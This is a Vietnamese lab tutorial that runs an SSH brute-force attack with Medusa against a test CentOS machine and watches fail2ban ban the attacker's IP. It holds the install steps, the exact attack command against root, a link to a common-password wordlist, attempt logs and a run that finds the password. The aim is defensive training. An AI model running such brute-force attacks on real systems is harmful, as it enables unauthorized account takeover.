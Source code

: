 # Brute Force Password với Medusa và Fail2ban

## Mục lục

## Phương án Demo

Cấu hình 2 máy CentOS 7, trong đó 1 máy `Máy 1` cài fail2ban và 1 máy `Máy 2` cài medusa.

**Cách thức tiến hành:** `Máy 2` sẽ tiến hành quét password theo dịch vụ SSH của `Máy 1`. Ta sẽ theo dõi việc công việc quét tại `Máy 2` diễn ra như thế nào và bao lâu thì **Fail2ban** sẽ tiến hành block IP của `Máy 2`.

Tham khảo cài đặt Fail2ban trên CentOS7 [tại đây](https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Fail2ban_with_CentOS7.md)

## 1. Cài đặt Medusa trên CentOS 7

### Bước 1: Cài đặt một số gói cần thiết

```
[root@localhost ~]# yum -y update
[root@localhost ~]# yum install epel-release
```

### Bước 2: Cài đặt gói Medusa

```
[root@localhost ~]# yum install medusa
```

## 2. Cách thức sử dụng Medusa

Sử dụng lệnh `medusa -h` để hiển thị các lựa chọn mà ta muốn sử dụng

```
Syntax: Medusa [-h host|-H file] [-u username|-U file] [-p password|-P file] [-C file] -M module [OPT]
  -h [TEXT]    : Target hostname or IP address
  -H [FILE]    : File containing target hostnames or IP addresses
  -u [TEXT]    : Username to test
  -U [FILE]    : File containing usernames to test
  -p [TEXT]    : Password to test
  -P [FILE]    : File containing passwords to test
  -C [FILE]    : File containing combo entries. See README for more information.
  -O [FILE]    : File to append log information to
  -e [n/s/ns]  : Additional password checks ([n] No Password, [s] Password = Username)
  -M [TEXT]    : Name of the module to execute (without the .mod extension)
  -m [TEXT]    : Parameter to pass to the module. This can be passed multiple times with a different parameter each time and they will all be sent to the module (i.e. -m Param1 -m Param2, etc.)
  -d           : Dump all known modules
  -n [NUM]     : Use for non-default TCP port number
  -s           : Enable SSL
  -g [NUM]     : Give up after trying to connect for NUM seconds (default 3)
  -r [NUM]     : Sleep NUM seconds between retry attempts (default 3)
  -R [NUM]     : Attempt NUM retries before giving up. The total number of attempts will be NUM + 1.
  -c [NUM]     : Time to wait in usec to verify socket is available (default 500 usec).
  -t [NUM]     : Total number of logins to be tested concurrently
  -T [NUM]     : Total number of hosts to be tested concurrently
  -L           : Parallelize logins using one username per thread. The default is to process the entire username before proceeding.
  -f           : Stop scanning host after first valid username/password found.
  -F           : Stop audit after first valid username/password found on any host.
  -b           : Suppress startup banner
  -q           : Display module's usage information
  -v [NUM]     : Verbose level [0 - 6 (more)]
  -w [NUM]     : Error debug level [0 - 10 (more)]
  -V           : Display version
  -Z [TEXT]    : Resume scan based on map of previous scan
```

## 3. Tiến hành Brute Force Password

Có thể tải file chứa **12000 mật khẩu** hay sử dụng [tại đây](https://github.com/danielmiessler/SecLists/blob/master/Passwords/probable-v2-top12000.txt)

Tạo 1 file `password.txt` có chứa các mật khẩu thông dụng, dễ bị quét ra.

`[root@localhost ~]# vi password.txt`

Tiến hành quét `Máy 1` có sử dụng fail2ban bằng lệnh sau:

`[root@localhost ~]# medusa -h 172.16.2.194 -u root -P password.txt -M ssh`

Kết quả nhận được như sau:

```
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (1 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: password (2 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456789 (3 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345678 (4 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345 (5 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: qwerty (6 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123123 (7 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 111111 (8 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: abc123 (9 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1234567 (10 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: dragon (11 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 1q2w3e4r (12 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: sunshine (13 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 654321 (14 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: master (15 of 235 complete)
```

Theo như kết quả nhận được, `Medusa` đã quét đến password thứ 15 thì không được nữa. Ta kiểm tra `log` của `fail2ban` tại `Máy 1`.

```
[root@localhost ~]# tail -F /var/log/fail2ban.log
2020-08-21 14:15:21,207 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:21
2020-08-21 14:15:23,054 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:23
2020-08-21 14:15:24,762 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:24
2020-08-21 14:15:27,281 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:27,285 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:27,286 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:27
2020-08-21 14:15:28,958 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:28
2020-08-21 14:15:31,021 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:31
2020-08-21 14:15:31,497 fail2ban.actions        [1822]: NOTICE  [sshd] Ban 172.16.2.193
2020-08-21 14:15:33,496 fail2ban.filter         [1822]: INFO    [sshd] Found 172.16.2.193 - 2020-08-21 14:15:33
```

Ta thấy `log` cảnh báo đã ban IP **172.16.2.193** của `Máy 2`. Kiểm tra trên firewall của `Máy 1`:

```
[root@localhost ~]# iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
f2b-SSH    tcp  --  anywhere             anywhere             tcp dpt:ssh

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination

Chain f2b-SSH (1 references)
target     prot opt source               destination
REJECT     all  --  172.16.2.193         anywhere             reject-with icmp-port-unreachable
RETURN     all  --  anywhere             anywhere
```

Địa chỉ IP **172.16.2.193** đã bị block.

Trên `Máy 2` thử SSH vào `Máy 1` thì nhận được thông báo k thể kết nối mặc dù vẫn ping được bình thường.

```
[root@localhost ~]# ping 172.16.2.194
PING 172.16.2.194 (172.16.2.194) 56(84) bytes of data.
64 bytes from 172.16.2.194: icmp_seq=1 ttl=64 time=0.381 ms
64 bytes from 172.16.2.194: icmp_seq=2 ttl=64 time=0.392 ms
^C
--- 172.16.2.194 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1000ms
rtt min/avg/max/mdev = 0.381/0.386/0.392/0.020 ms
[root@localhost ~]# ssh root@172.16.2.194
ssh: connect to host 172.16.2.194 port 22: Connection refused
```

Để unban IP của `Máy 2`, ta sử dụng lệnh:

```
[root@localhost ~]# fail2ban-client set sshd unbanip 172.16.2.193
```

Từ `Máy 2` SSH lại và thành công:

```
[root@localhost ~]# ssh root@172.16.2.194
The authenticity of host '172.16.2.194 (172.16.2.194)' can't be established.
ECDSA key fingerprint is SHA256:bVTZ8dZ6oPko8Qc0lvA5ntQwU7XKM2qtvfoK/ZLp96g.
ECDSA key fingerprint is MD5:37:d6:c5:de:fd:b4:1f:7f:01:14:bd:20:5b:a1:d2:86.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.16.2.194' (ECDSA) to the list of known hosts.
root@172.16.2.194's password:
Last failed login: Fri Aug 21 14:15:33 +07 2020 from 172.16.2.193 on ssh:notty
There were 15 failed login attempts since the last successful login.
Last login: Fri Aug 21 11:48:55 2020 from 172.16.2.179
```

### Trường hợp Medusa quét thành công

```
[root@localhost ~]# medusa -h 172.16.2.194 -u root -P password.txt -M ssh
Medusa v2.1.1 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456 (1 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: password (2 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 123456789 (3 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: 12345678 (4 of 235 complete)
ACCOUNT CHECK: [ssh] Host: 172.16.2.194 (1 of 1, 0 complete) User: root (1 of 1, 0 complete) Password: admin@123 (5 of 235 complete)
ACCOUNT FOUND: [ssh] Host: 172.16.2.194 User: root Password: ********* [SUCCESS]
```

## Tài liệu tham khảo

https://news.cloud365.vn/brute-force-password-su-dung-medusa/

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Brute%20Force/Brute%20Force%20Attack.md

https://github.com/quanganh1996111/Linux-Tutorial/blob/master/Linux-Onjob%20Trainning/Security%20and%20Firewall/Fail2ban_with_CentOS7.md